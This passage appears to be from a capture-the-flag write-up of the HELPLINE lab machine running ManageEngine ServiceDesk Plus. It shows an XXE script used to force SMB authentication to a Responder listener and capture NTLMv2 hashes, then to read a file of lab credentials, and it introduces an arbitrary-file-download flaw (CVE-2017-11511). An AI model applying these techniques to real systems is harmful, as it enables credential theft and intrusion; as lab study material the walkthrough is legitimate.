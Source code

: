 I still need to test that, but since it ended up not being important here, I’ll just show the Kali `responder` results. The hashes I got were not helpful:

```

root@kali# python3 mesep_xxe.py 10.10.10.132 //10.10.14.14/share/test.txt
Error: No data returned

```

```

[SMBv2] NTLMv2-SSP Client   : 10.10.10.132
[SMBv2] NTLMv2-SSP Username : \iX
[SMBv2] NTLMv2-SSP Hash     : iX:::918a26cfdd690e81::
[SMBv2] NTLMv2-SSP Client   : 10.10.10.132
[SMBv2] NTLMv2-SSP Username : \iX
[SMBv2] NTLMv2-SSP Hash     : iX:::07d76d4d1f724c69::

```

These hashes are indicative of a SYSTEM account. That’s interesting, as it means that ME SDP is likely running as SYSTEM, but that I don’t get any hashes from it to crack.

#### it\_logins.txt

In the password audit xlsx document, there was a reference to additional information located at `C:\Temp\Password Audit\it_logins.txt` on HELPLINE. I’ll grab that file with the script:

```

PS > python .\mesep_xxe.py 10.10.10.132 "C:\temp\Password Audit\it_logins.txt"

local Windows account created

username: alice
password: $sys4ops@megabank!
admin required: no

shadow admin accounts:

mike_adm:Password1
dr_acc:dr_acc

```

Now I have more passwords to try.

### CVE-2017-11511 - LFI / Arbitrary File Download

#### Vulnerability

This is [another vulnerability](https://www.tenable.com/security/research/tra-2017-31) that provides access to files on the system, this time through a local file include. However, in this case, the target file must be given as a relative path to one of four directories associated with the SDP install, including option 4 which seems to intentionally open up all of the SDP install. The vulnerability allows me to request any file relative to that path.
